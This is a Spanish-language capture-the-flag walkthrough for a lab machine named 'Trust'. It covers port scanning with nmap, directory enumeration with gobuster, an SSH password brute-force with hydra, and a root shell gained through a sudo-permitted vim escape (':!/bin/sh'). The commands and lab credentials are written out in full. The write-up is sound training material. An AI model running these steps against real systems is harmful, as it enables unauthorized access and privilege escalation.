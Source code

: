 # Trust
## 1. Reconocimiento de Puertos con Nmap

Utilizamos `nmap` para escanear los puertos de la máquina objetivo. Un escaneo inicial revela los puertos 22 (SSH) y 80 (HTTP) abiertos.

```bash
sudo nmap <IP_DEL_OBJETIVO>
```

Para obtener más detalles sobre los servicios, realizamos un escaneo de versiones:

```bash
sudo nmap -sV -p 22,80 <IP_DEL_OBJETIVO>
```

**Servicios Identificados:**

| PUERTO | SERVICIO | VERSIÓN |
|---|---|---|
| 22/tcp | ssh | OpenSSH |
| 80/tcp | http | Apache httpd |

La presencia de un servidor web Apache en el puerto 80 sugiere que la interacción inicial se realizará a través de una aplicación web.

## 2. Enumeración Web y Descubrimiento de Directorios

Al acceder a la dirección IP del objetivo en un navegador web, encontramos una página simple que no ofrece mucha interacción. Por lo que vamos a buscar directorios ocultos en el servidor web.

### 2.1. Búsqueda de Directorios con Gobuster

Empleamos `gobuster` para realizar un escaneo de directorios. 
```bash
sudo gobuster dir -u http://<IP_DEL_OBJETIVO>/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

En este caso, se encontró el directorio `/server-status`, pero con un código de estado 403 (Prohibido), lo que indica que no tenemos permisos para acceder a él.

/server-status (Status: 403) [Size: 275]
Progress: 207643 / 207644 (100.00%)

### 2.2. Búsqueda de Archivos con Extensiones Específicas

Dado que el servidor es Apache, es común que las aplicaciones web utilicen archivos `.html` o `.php`. Realizamos un nuevo escaneo con `gobuster` especificando estas extensiones:

```bash
sudo gobuster dir -u http://<IP_DEL_OBJETIVO>/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php
```
**Salida**

/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 622929 / 622932 (100.00%)

Este escaneo revela varios archivos, incluyendo `index.html` (la página que ya habíamos visto) y `secret.php`.

Al acceder a `secret.php`, encontramos un mensaje que dice: "Hola Mario, Esta web no se puede hackear.". Este mensaje es una pista importante, ya que nos proporciona un nombre de usuario: **Mario**.

## 3. Acceso Inicial: Fuerza Bruta SSH

Con el nombre de usuario "Mario" y el puerto SSH (22) abierto, el siguiente paso lógico es intentar un ataque de fuerza bruta para obtener la contraseña de SSH.

### 3.1. Ataque de Fuerza Bruta con Hydra

Utilizamos `hydra` con el nombre de usuario `mario` y un diccionario de contraseñas (`rockyou.txt`) para intentar iniciar sesión por SSH.

```bash
sudo hydra -l mario -P /usr/share/wordlists/rockyou.txt <IP_DEL_OBJETIVO> ssh
```

Si el ataque es exitoso, `hydra` nos revelará la contraseña. En este ejercicio, la contraseña encontrada es **chocolate**.

login: mario   password: chocolate

## 4. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `mario`, el objetivo es escalar privilegios a `root`.

Comprobamos que no nos permite hacer`sudo su` con la contraseña `chocolate`

### 4.1. Verificación de Permisos Sudo

Primero, verificamos qué comandos puede ejecutar el usuario `mario` con `sudo` sin necesidad de contraseña. Esto se hace con el comando

```bash
sudo -l
# Salida:  /usr/bin/vim
```

La salida de este comando nos indica que el usuario `mario` puede ejecutar `/usr/bin/vim` sin contraseña.

### 4.2. Explotación de Vim (GTFOBins)

`vim` es un editor de texto, pero si se puede ejecutar con `sudo` sin contraseña, puede ser explotado para obtener un shell de `root`. Consultamos [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo), y nos proporciona el siguiente comando para obtener un shell de `root` a través de `vim`:

```bash
sudo /usr/bin/vim -c ':!/bin/sh'
```

*   `-c ':!/bin/sh'`: Abre `vim` y ejecuta el comando interno `:!/bin/sh`. Este comando le dice a `vim` que ejecute `/bin/sh` (un shell) . Dado que `vim` se está ejecutando con privilegios de `root`, el shell  también tendrá privilegios de `root`.

Después de ejecutar este comando, si la explotación es exitosa, el comando `whoami` confirmará que ahora somos `root`.
